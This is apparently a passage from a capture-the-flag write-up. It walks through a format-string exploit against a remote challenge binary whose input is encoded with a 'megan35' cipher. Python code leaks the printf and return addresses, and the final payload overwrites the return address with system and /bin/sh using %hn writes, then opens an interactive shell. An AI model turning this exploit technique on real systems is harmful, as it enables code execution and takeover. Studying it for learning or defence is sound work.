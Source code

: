 ```python
def get_printf_addr():
    p = getp()
    payload = ''
    payload += 'AAAA%46$x'
    cipher = encode(megan35, payload)
    p.sendline(cipher)
    ret = p.recvall()
    ret = ret.replace('AAAA','')
    return u32(ret.decode('hex')[::-1])+0x35D3B
```

I then did something similar for finding the address on the stack containing the return address.

```python
def get_retn_addr():
    p = getp()
    payload = ''
    payload += 'AAAA%96$x'
    cipher = encode(megan35, payload)
    p.sendline(cipher)
    ret = p.recvall()
    ret = ret.replace('AAAA','')
    return u32(ret.decode('hex')[::-1])+0xc
```

Finally, I am ready to build the string format exploit.  Since `%hn` writes only 2 bytes at a time, we will have to perform a total of 4 writes to modify the 2 addresses.  I add the address with the smallest value to overwrite first ascending to the largest overwrite value.  And then I write to the arguments in the order that they are on the stack.


Here were the calculated memory addresses on the remote server:
```
System...
00000000  40 39 e5 f7                                         │@9··││
00000004
/bin/sh...
00000000  0b 20 f7 f7                                         │· ··││
00000004
```

And the final exploit code:
```python
retn_addr = get_retn_addr()
print('0x%x' % retn_addr)

p = getp()
fmt = ''
fmt += p32(retn_addr+8)
fmt += p32(retn_addr)
fmt += p32(retn_addr+2)
fmt += p32(retn_addr+8+2)
fmt += '%8187x%71$hn'
fmt += '%6453x%72$hn'
fmt += '%48805x%73$hn'
fmt += '%18x%74$hn'
    
payload = encode(megan35, fmt)
p.sendline(payload)
p.interactive()
```
